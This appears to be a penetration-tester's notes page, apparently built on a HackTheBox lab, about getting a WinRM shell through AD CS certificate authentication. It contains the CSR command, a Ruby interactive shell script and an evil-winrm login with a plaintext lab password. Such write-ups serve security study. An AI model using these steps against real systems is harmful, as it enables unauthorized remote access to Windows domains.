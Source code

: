 ```yaml
---
description: >-
  WinRM Certificate (password-less) based authentication
title: WinRM Certificate (password-less) based authentication              # Add title here
date: 2023-01-29 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Authentication]          # Change Templates to Writeup
tags: [active directory, authentication, winrm, passwordless based authentication]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### WINRM Certificate
We can authenticate via WINRM by creating a certificate, this is an AD CS feature. As we can check on this [notes](https://notes.offsec-journey.com/enumeration/winrm) all we need to do is follow this steps:

- Pre-requisites: Access to Active Directory Certificate Services
- Default location: `http://<IP>/certsrv/`
- Script Link: [win-rm.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)
  
```bash
#Certificate signing request
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr # All the options required are by default
```
Then we proceed to sign certificate as user by Sign-in to `http://10.10.10.103/certsrv`  and paste the content of amanda.csr into the text field:
![Winrm-auth-certificate](/assets/img/Pasted image 20230129030758.png)
Download base64-encoded certificate:
![winrm-base64-cert](/assets/img/Pasted image 20230129030850.png)
And modify the winrm_shell.rb script:
#Note `remember to run the script in the same folder as in certnew.cer and amanda.key`
```bash
require 'winrm'
# Author: Alamot
conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  :client_cert => 'certnew.cer',
  :client_key => 'amanda.key',
  :no_ssl_peer_verification => true
)
command=""
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
Finally run the script and you're in:
```bash
ruby winrm_shell.rb
PS htb\amanda@SIZZLE Documents>
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:winrm-auth-cert)
### evil-winrm
It is also possible to authenticate via evil-winrm:
```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

Resources:
[Certificate authentication in Win-RM](http://www.hurryupandwait.io/blog/certificate-password-less-based-authentication-in-winrm)
[offsec journey notes](https://notes.offsec-journey.com/enumeration/winrm) 
[win-rm.rb](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb)

